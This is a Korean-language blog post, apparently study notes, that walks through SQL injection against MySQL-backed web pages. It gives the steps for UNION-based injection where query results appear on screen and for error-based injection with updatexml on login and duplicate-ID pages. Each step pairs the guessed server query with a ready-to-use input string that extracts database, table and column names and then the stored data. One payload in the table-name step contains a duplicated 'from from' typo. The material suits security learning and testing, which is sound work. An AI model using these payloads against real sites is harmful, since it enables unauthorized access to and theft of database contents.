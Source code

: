 ```yaml
---
title: "SQL Injection 과정정리"
excerpt: "sql injection 보다 쉽게 할 수 있는 과정을 정리하였다."
tags:
    - Mysql DB
    - DB
    - sql injection
last_modified_at: 2023-04-24T09:13:00-05:00
---
```

### 환경
    - MYSQL 서버


### 질의문의 결과가 화면에 보일때.
---
- 게시판(글이 화면에 나옴), 회원정보(마이페이지), 주소검색, 검색페이지 등

##### SQLi 과정
1. 서버에서 어떤 질의문을 사용하는지 추측하기.
	- 질의문 추측 = `select xxxx from xxx where 컬럼명 like '%----%' ...`
2. **SQL Injection** 취약점 존재하는지 확인하기.
	- 질의문 = `select xxxx from xxx where 컬럼명 like '%test%' and '1%'='1%' ...`
	- 입력 = `test%' and '1%'='1`
3. 컬럼수 찾기.
	- `order by` 를 이용하여 1씩 증가 시키면서 컬럼수를 찾아준다.
	- 질의문 = `select xxxx from xxx where 컬럼명 like '%test%' order by 1 -- %' ...`
	- 입력 = `test%' order by 1 -- `
4. data 출력 위치 파악하기.
	- 위에서 찾은 컬럼수를 이용하여 data 출력 위치 파악하기.
	- 질의문 = `select xxxx from xxx where 컬럼명 like '%test%' union select '1','2','3','4' from dual -- %' ...`
	- 입력 = `test%' union select '1','2','3','4' from dual -- `
5. database 이름 출력하기.
	- 위에서 파악한 출력위치를 이용하여 DB 이름을 알아보자.
	- `select database() from dual` 명령을 이용하면 현재 DB 명이 나온다.
	- 질의문 = `select xxxx from xxx where 컬럼명 like '%test%' union select '1',database(),'3','4' from dual -- %' ...`
	- 입력 = `test%' union select '1',database(),'3','4' from dual -- `
6. table 이름 출력하기.
	- 위에서 파악한 DB이름을 이용하여 존재하는 테이블명을 알아보자.
	- `select table_name from information_schema.tables where table_schema='DB명'` 명령을 이용하면 테이블명을 알 수 있다.
	- 질의문 = `select xxxx from xxx where 컬럼명 like '%test%' union select '1',table_name,'3','4' from from information_schema.tables where table_schema='DB명' -- %' ...`
	- 입력 = `test%' union select '1',table_name,'3','4' from from information_schema.tables where table_schema='DB명' -- `
7. column 이름 출력하기.
	- 위에서 파악한 table 이름을 이용하여 table의 컬럼명을 알아보자.
	- `select column_name from information_schema.columns where table_name='테이블명'` 명령을 이용하면 해당 table의 컬럼명을 알 수 있다.
	- 질의문 = `select xxxx from xxx where 컬럼명 like '%test%' union select '1',column_name,'3','4' from information_schema.columns where table_name='테이블명' -- %' ...
	- 입력 = `test%' union select '1',column_name,'3','4' from information_schema.columns where table_name='테이블명' -- `
8. 정보 빼오기.
	- 위에서 파악한 table명과 해당 table에 대한 column 명을 이용하여 정보를 빼오자!
	- `select column명 from table명` 명령을 이용하여 저장된 정보를 알 수 있다.
	- 질의문 = `select xxxx from xxx where 컬럼명 like '%test%' union select '1',column명,'3','4' from table명 -- %' ...`
	- 입력 = `test%' union select '1',column명,'3','4' from table명 -- `

<br><br>
### 질의문의 결과가 화면에 안보일때.
---
- 로그인, 아이디 중복 체크.

##### 조건
- Error 메시지가 화면에 출력될때. ( **Error Bases SQL Injection** ) 

##### SQLi 과정
1. 서버에서 어떤 질의문을 사용하는지 추측하기.
	- 질의문 추측 = `select xxxx from xxx where 컬럼명='----' ...`
2. 오류 발생 확인하기. ( db 에러인지 확인하기 )
	- 입력 = `' asd`
	- **syntax error 발생(문법 에러)** 가 발생하는 것을 확인이 가능한지 본다.
3. Error Based SQL Injection Function 동작하는지 확인하기.
	- Syntax error (문법에러) : 문법 틀리면 안됨. 컴파일 할 때 잡아낸다.
	- 논리에러 : 실행이된다.
	- 즉 우리는 논리에러를 발생시켜야 한다.
	- **updatexml** 함수를 이용하자!
	- 질의문 = `select xxxx from xxx where 컬럼명='1' and updatexml(null, concat(0x3a,'test'), null) and '1'='1' ...`
	- 입력 = `1' and updatexml(null, concat(0x3a,'test'), null) and '1'='1`
	- `XPATH syntax error: ':test'` 에러를 볼 수 있다.
	- `select xxxx from xxx where 컬럼명='1' and updatexml(null, concat(0x3a,(SQL)), null) and '1'='1' ...` test 대신 질의문을 넣어주면 된다.
4. Database 이름 출력하기.
	- `select database() from dual`  로 DB 명 찾기
	- 질의문 = `select xxxx from xxx where 컬럼명='1' and updatexml(null, concat(0x3a,(select database() from dual)), null) and '1'='1' ...`
	- 입력 = `1' and updatexml(null, concat(0x3a,(select database() from dual)), null) and '1'='1`
5. table 이름 출력하기.
	- `select table_name from information_schema.tables where table_schema='DB명' limit 0,1` 로 table 명 찾기.
	- 오류는 하나의 데이터만 보여줄 수 있다. 따라서 출력을 1개로 제한하였다.
	- 질의문 = `select xxxx from xxx where 컬럼명='1' and updatexml(null, concat(0x3a,(select table_name from information_schema.tables where table_schema='DB명' limit 0,1)), null) and '1'='1' ...` 
	- 입력 = `1' and updatexml(null, concat(0x3a,(select table_name from information_schema.tables where table_schema='DB명' limit 0,1)), null) and '1'='1`
	- `limit` 를 조절하면서 원하는 테이블명을 찾는다.
6. column 이름 출력하기.
	- `select column_name from information_schema.columns where table_name='테이블명' limit 0,1` 로 table에 해당하는 column명 찾기.
	- 질의문 = `select xxxx from xxx where 컬럼명='1' and updatexml(null, concat(0x3a,(select column_name from information_schema.columns where table_name='테이블명' limit 0,1)), null) and '1'='1' ...`
	- 입력 = `1' and updatexml(null, concat(0x3a,(select column_name from information_schema.columns where table_name='테이블명' limit 0,1)), null) and '1'='1`
7. 정보 빼오기
	- 위에서 파악한 table명과 해당 table에 대한 column 명을 이용하여 정보를 빼오자!
	- `select column명 from table명 limit 0,1` 명령을 이용하여 저장된 정보를 알 수 있다.
	- 질의문 = `select xxxx from xxx where 컬럼명='1' and updatexml(null, concat(0x3a,(select column명 from table명 limit 0,1)), null) and '1'='1' ...`
	- 입력 = `1' and updatexml(null, concat(0x3a,(select column명 from table명 limit 0,1)), null) and '1'='1`